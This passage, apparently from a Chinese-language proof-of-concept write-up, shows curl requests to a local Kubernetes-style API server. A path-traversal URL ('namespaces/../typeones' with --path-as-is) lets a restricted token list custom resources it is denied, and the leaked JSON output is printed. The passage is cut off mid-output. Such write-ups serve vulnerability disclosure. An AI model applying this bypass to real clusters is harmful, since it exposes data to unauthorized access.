 - 测试`poc`可以访问`typeone`而不能访问`typetwo`
```
curl -kv -H "Authorization: Bearer $token" --path-as-is https://127.0.0.1:40345/apis/example.com/v1/typeones
curl -kv -H "Authorization: Bearer $token" --path-as-is https://127.0.0.1:40345/apis/example.com/v1/typetwos
```

- 构造路径穿越，越权访问`example.com`下的所有资源
```
curl -sk -H "Authorization: Bearer $token" --path-as-is https://127.0.0.1:40345/apis/example.com/v1/namespaces/../typeones
{
  "apiVersion": "example.com/v1",
  "items": [
    {
      "apiVersion": "example.com/v1",
      "kind": "TypeOne",
      "metadata": {
        "annotations": {
          "kubectl.kubernetes.io/last-applied-configuration": "{\"apiVersion\":\"example.com/v1\",\"kind\":\"TypeOne\",\"metadata\":{\"annotations\":{},\"name\":\"example-typeone\",\"namespace\":\"default\"},\"spec\":{\"field1\":\"value1\"}}\n"
        },
        "creationTimestamp": "2023-09-25T08:09:11Z",
        "generation": 1,
        "managedFields": [
          {
            "apiVersion": "example.com/v1",
            "fieldsType": "FieldsV1",
            "fieldsV1": {
              "f:metadata": {
                "f:annotations": {
                  ".": {},
                  "f:kubectl.kubernetes.io/last-applied-configuration": {}
                }
              },
              "f:spec": {
                ".": {},
                "f:field1": {}
              }
            },
            "manager": "kubectl-client-side-apply",
            "operation": "Update",
            "time": "2023-09-25T08:09:11Z"
          }
        ],
        "name": "example-typeone",
        "namespace": "default",
        "resourceVersion": "4097",
        "uid": "045537bc-fac8-4e18-90ea-a9fcbc18d758"
      },
      "spec": {
        "field1": "value1"
      }
    },
    {
      "apiVersion": "example.com/v1",
      "kind": "TypeTwo",
      "metadata": {
        "annotations": {
          "kubectl.kubernetes.io/last-applied-configuration": "{\"apiVersion\":\"example.com/v1\",\"kind\":\"TypeTwo\",\"metadata\":{\"annotations\":{},\"name\":\"example-typetwo\",\"namespace\":\"default\"},\"spec\":{\"field2\":\"value2\"}}\n"
        },
```